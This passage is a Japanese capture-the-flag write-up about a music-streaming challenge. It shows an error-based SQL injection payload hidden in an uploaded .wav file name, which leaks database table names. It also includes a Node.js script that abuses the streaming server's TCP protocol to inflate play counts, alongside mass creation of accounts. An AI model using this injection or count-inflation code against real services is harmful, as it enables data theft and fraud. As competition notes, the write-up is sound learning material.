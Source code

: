 ```sql
', 0, (SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES LIMIT 0, 1)) -- .wav
```

のようなファイルを投げると、MariaDBが型エラーを吐き、そのエラーメッセージで内容がわかります。

いろいろ見ていたんですが、特に怪しいテーブルも存在せず、さらにDBにアクセスしているユーザが`file`テーブル以外へのアクセス権を持っていないように見えました。
（挑戦していたのが終了間近で焦っていたので、違ったかもしれない……）

で、結局ここから先がわかりませんでした……
ここからuserテーブルのis_adminフラグを立てるとか、adminのパスワードを抜くとかでしょうか？
わかりません。

### Defence

再生数ランキング上位の曲名にディフェンスキーワードを入れられると、DefencePointがもらえます。

1アカウント辺り、1再生しかカウントされないので、ランキングを上げるにはアカウントを量産することが必要です。
適当にPOSTを投げるとアカウントが作れるので、さほど難しくないです。

再生数のカウントは、ストリーミングサーバから実際に曲ファイルを取得した際に行われていて、
ストリーミングサーバへのリクエストはTCP上の独自プロトコル？っぽいもので通信しています。
アプリが実際に使っているソースコードは、Electronパッケージから簡単に抜けるので、これを使うと簡単。

#### 再生数を増やすNode.js向けスクリプト

```js
var PromiseSocket = require('promise-socket');

async function getWAV(streaming_host, streaming_port, song, api_key) {
    return new Promise(async (resolve, reject) => {
        const socket = new PromiseSocket();
        await socket.connect({
            host: streaming_host,
            port: streaming_port
        });
        for(let i = 0; i < 100; i++){
            // '\x80': select song
            await socket.write("\x80");
            await socket.write(song['unique_id']);
            await socket.write(api_key);
            // '\x82': get WAV File Headers
            await socket.write("\x82");
            await socket.write("\x84\xff\xff\xff\xff\xff\xff\xff\x7f");
            await socket.write("\x81");
        }
        // '\x90': close connection
        await socket.write("\x90");
        // let result = (await socket.readAll());
        let result = (await socket.end());
        resolve(result);
    });
}


(async _ => {
    console.log(await getWAV("fuchu.koth.seccon", 8000, {unique_id: process.argv[2]}, process.argv[3]));
})();
```

